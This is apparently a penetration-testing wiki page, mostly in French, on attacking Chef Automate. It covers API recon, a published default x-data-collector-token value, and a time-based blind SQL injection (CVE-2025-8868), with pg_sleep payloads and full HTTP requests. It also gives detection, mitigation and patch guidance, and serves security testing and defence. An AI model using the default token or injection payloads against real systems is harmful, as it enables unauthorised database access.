 # Chef Automate Énumération & Attaques

{{#include ../../banners/hacktricks-training.md}}

## Aperçu

Cette page rassemble des techniques pratiques pour énumérer et attaquer des instances Chef Automate, avec un accent sur :
- Découvrir les endpoints REST exposés via gRPC-Gateway et déduire les schémas de requête via les réponses de validation/erreur
- Abuser l'en-tête d'authentification x-data-collector-token lorsque des valeurs par défaut sont présentes
- Time-based blind SQL injection dans la Compliance API (CVE-2025-8868) affectant le champ filters[].type dans /api/v0/compliance/profiles/search

> Note : Les réponses backend qui incluent l'en-tête grpc-metadata-content-type: application/grpc indiquent typiquement un gRPC-Gateway faisant le pont entre des appels REST et des services gRPC.

## Recon : Architecture et empreintes

- Front-end : souvent Angular. Les bundles statiques peuvent donner des indices sur les chemins REST (p.ex., /api/v0/...)
- API transport : REST vers gRPC via gRPC-Gateway
- Les réponses peuvent inclure grpc-metadata-content-type: application/grpc
- Empreintes base de données/driver :
- Corps d'erreur commençant par pq: suggèrent fortement PostgreSQL avec le driver Go pq
- Endpoints Compliance intéressants (auth requis) :
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth : Data Collector Token (x-data-collector-token)

Chef Automate expose un data collector qui authentifie les requêtes via un en-tête dédié :

- En-tête : x-data-collector-token
- Risque : Certains environnements peuvent conserver un token par défaut donnant accès à des routes API protégées. Valeur par défaut connue observée en nature :
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

S'il est présent, ce token peut être utilisé pour appeler des endpoints de la Compliance API normalement protégés par l'auth. Pensez toujours à remplacer/désactiver les valeurs par défaut lors du durcissement.

## Inférence du schéma de l'API via la découverte guidée par les erreurs

Les endpoints supportés par gRPC-Gateway often leak des erreurs de validation utiles qui décrivent le modèle de requête attendu.

Pour /api/v0/compliance/profiles/search, le backend attend un body avec un tableau filters, où chaque élément est un objet contenant :

- type : string (identifiant du champ de filtre)
- values : array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Un JSON malformé ou des types de champs incorrects déclenchent typiquement des erreurs 4xx/5xx avec des indices, et les en-têtes indiquent le comportement du gRPC-Gateway. Utilisez ces éléments pour cartographier les champs et localiser les surfaces d'injection.

## Compliance API SQL Injection (CVE-2025-8868)

- Point de terminaison affecté: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Classe de vulnérabilité: time-based blind SQL injection in PostgreSQL
- Cause racine: manque de paramétrisation et de mise en liste blanche lors de l'interpolation du champ type dans un fragment SQL dynamique (probablement utilisé pour construire des identifiants/clauses WHERE). Les valeurs spécialement conçues dans type sont évaluées par PostgreSQL.

Exemple de payload time-based fonctionnel:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Notes sur la technique :
- Fermer la chaîne originale avec une apostrophe simple
- Concaténer une sous-requête qui appelle pg_sleep(N)
- Réintégrer le contexte de chaîne via || de sorte que le SQL final reste syntaxiquement valide, quel que soit l'endroit où type est inséré

### Preuve par latence différentielle

Envoyer des requêtes appariées et comparer les temps de réponse pour valider l'exécution côté serveur :

- N = 1 seconde
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 secondes
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Les temps de réponse augmentent proportionnellement à pg_sleep(N)
- Les réponses HTTP 500 peuvent inclure des détails pq: lors du probing, confirmant l'exécution de chemins SQL

> Tip: Utilisez un validateur de timing (par ex., plusieurs essais avec comparaison statistique) pour réduire le bruit et les faux positifs.

### Impact

Les utilisateurs authentifiés — ou des acteurs non authentifiés abusant d'un x-data-collector-token par défaut — peuvent exécuter du SQL arbitraire dans le contexte PostgreSQL de Chef Automate, mettant en risque la confidentialité et l'intégrité des profils de conformité, de la configuration et de la télémétrie.

### Affected versions / Fix

- CVE: CVE-2025-8868
- Upgrade guidance: Chef Automate 4.13.295 or later (Linux x86) per vendor advisories

## Detection and Forensics

- API layer:
- Surveiller les 500 sur /api/v0/compliance/profiles/search où filters[].type contient des quotes ('), de la concaténation (||) ou des références de fonction comme pg_sleep
- Inspecter les en-têtes de réponse pour grpc-metadata-content-type afin d'identifier les flux gRPC-Gateway
- Database layer (PostgreSQL):
- Auditer les appels à pg_sleep et les erreurs d'identifiant malformé (souvent affichées avec des préfixes pq: provenant du driver pq pour Go)
- Authentication:
- Consigner et alerter sur l'utilisation de x-data-collector-token, en particulier des valeurs par défaut connues, sur l'ensemble des chemins API

## Mitigations and Hardening

- Immediate:
- Faire tourner/désactiver les data collector tokens par défaut
- Restreindre l'ingress vers les endpoints du data collector ; appliquer des tokens forts et uniques
- Code-level:
- Paramétrer les requêtes ; ne jamais concaténer des fragments SQL sous forme de chaînes
- Restreindre strictement par whitelist les valeurs type autorisées côté serveur (enum)
- Éviter l'assemblage dynamique de SQL pour les identifiants/clauses ; si un comportement dynamique est requis, utiliser un quoting sûr des identifiants et des whitelists explicites

## Practical Testing Checklist

- Vérifier si x-data-collector-token est accepté et si la valeur par défaut connue fonctionne
- Cartographier le schéma de requête de la Compliance API en provoquant des erreurs de validation et en lisant les messages/headers d'erreur
- Tester la présence de SQLi dans des champs “de type identifiant” moins évidents (par ex., filters[].type), pas seulement dans les tableaux de valeurs ou les champs texte de premier niveau
- Utiliser des techniques basées sur le temps avec concaténation pour maintenir la validité syntaxique du SQL selon les contextes

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
